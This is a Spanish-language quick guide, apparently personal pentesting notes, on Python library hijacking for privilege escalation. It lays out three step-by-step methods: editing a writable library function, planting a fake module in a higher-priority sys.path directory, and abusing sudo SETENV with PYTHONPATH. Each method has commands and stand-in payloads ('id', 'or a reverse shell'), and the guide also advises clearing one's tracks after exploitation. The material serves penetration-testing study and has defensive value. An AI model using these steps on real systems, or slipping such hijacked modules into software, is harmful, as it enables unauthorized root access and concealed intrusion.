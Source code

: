 # 📚 **Guía Rápida: Python Library Hijacking**

### 🎯 **Objetivo**

Ejecutar código malicioso aprovechando malas configuraciones en cómo Python carga sus librerías, consiguiendo escalada de privilegios.

## ✅ **Pre-requisitos generales**

- Un **script Python** ejecutable como **SUID** o con **sudo**.
    
- Tener **permiso de lectura** sobre dicho script.
    
- Acceso para modificar librerías o influir en la carga de módulos.

## 🔍 **Método 1: Hijacking por permisos de escritura incorrectos**

### 🔄 **Concepto**

Modificar directamente una librería legítima que tenga permisos de escritura para nuestro usuario.

### 🧩 **Pasos**

1. **Identificar un script Python ejecutable con sudo o SUID**
    
```bash
ls -l script.py
# Buscar SUID (-rws) o posibilidad de ejecutarlo con sudo.
```
2. Asegurarte de tener permisos de lectura sobre el script
	Esto te permitirá inspeccionar el código.
3. **Leer el script y detectar la librería y función usada**

```python
import psutil
available_memory = psutil.virtual_memory()
```
- 📌 **Objetivo**: Saber qué módulo importa (`psutil`) y qué función específica llama (`virtual_memory()`).

4. Localizar la función dentro de la librería:
```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/
```
5. **Verificar si tenemos permisos de escritura en el fichero que contiene la función**
```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

```

6. **Insertar código malicioso**  
Modificamos la función objetivo, por ejemplo:
```python
import os
os.system('id')  # o una reverse shell
```

7. Ejecutar el script vulnerable con privilegios
```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 2: Hijacking mediante la manipulación del Library Path**

### 🔄 **Concepto**

Crear una librería falsa en una ruta de mayor prioridad (según `sys.path`) que la ruta oficial.
### 🧩 **Pasos**

1. **Consultar el orden de búsqueda de módulos de Python**
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

2. Identificar rutas superiores con permisos de escritura:
```bash
ls -ld /usr/lib/python3.8
```

3. Crear una librería falsa en la ruta escribible
En `/usr/lib/python3.8/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

4. Ejecutar el script vulnerable

```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 3: Hijacking usando la variable PYTHONPATH**

### 🔄 **Concepto**

Modificar `PYTHONPATH` para que Python cargue módulos desde una carpeta controlada por nosotros.

### 🧩 **Pasos**

1. **Verificar permisos sudo para setear variables de entorno**
    
```bash
sudo -l
# Buscar SETENV en la salida (ejemplo: SETENV: NOPASSWD: /usr/bin/python3)

```

2. **Crear una librería falsa en una carpeta controlada**  
En `/tmp/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

3. Ejecutar el script forzando PYTHONPATH:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```


## 🚩 **Indicadores de éxito**

- Se ejecuta tu payload (`id` muestra `uid=0(root)`).
    
- Puedes obtener una shell o ejecutar comandos con privilegios elevados.
    

---

## 💡 **Notas y consejos**

- **`sys.path`** siempre es el orden real de búsqueda de Python.
    
- **PYTHONPATH** se inserta **al principio** de `sys.path` cuando está definida.
    
- Siempre limpia tu rastro tras la explotación.
    
- Asegúrate de que tu módulo falso tenga **el mismo nombre y función** que el original (misma firma de la función).